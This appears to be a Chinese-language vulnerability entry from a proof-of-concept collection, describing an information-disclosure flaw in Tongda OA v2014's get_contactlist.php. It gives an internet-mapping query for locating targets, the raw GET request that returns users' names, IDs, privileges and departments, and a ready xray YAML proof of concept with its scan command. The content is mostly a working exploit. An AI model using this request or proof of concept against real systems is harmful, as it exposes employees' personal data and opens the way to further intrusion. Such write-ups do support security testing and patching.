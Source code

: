 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞
## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击。
## 影响版本
```
通达OA v2014
```

## 网络测绘
```
app="TDXK-通达OA"
```

## 环境搭建

-

## 漏洞复现
![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201938916.png)


## 数据包
```
GET /mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0


```

## YAML代码
```
name: poc-yaml-tongda-v2014-get-contactlist-disclosure
manual: true
transport: http
rules:
  r0:
    request:
      cache: true
      method: GET
      path: /mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
    expression: response.status == 200 && response.body.bcontains(b'"user_uid":') && response.body.bcontains(b'"user_name":') && response.body.bcontains(b'"priv_name":') && response.body.bcontains(b'"dept_name":')
expression: r0()
detail:
  author: klear
  links:
    - https://vuls.info/PeiQi/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v2014%20get_contactlist.php%20%E6%95%8F%E6%84%9F%E4%BF%A1%E6%81%AF%E6%B3%84%E6%BC%8F%E6%BC%8F%E6%B4%9E/?h=contactlist#_4

```

## xray调用

```
xraypro ws --poc poc-yaml-tongda-v2014-get-contactlist-disclosure.yml --url xxx

```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201940134.png)
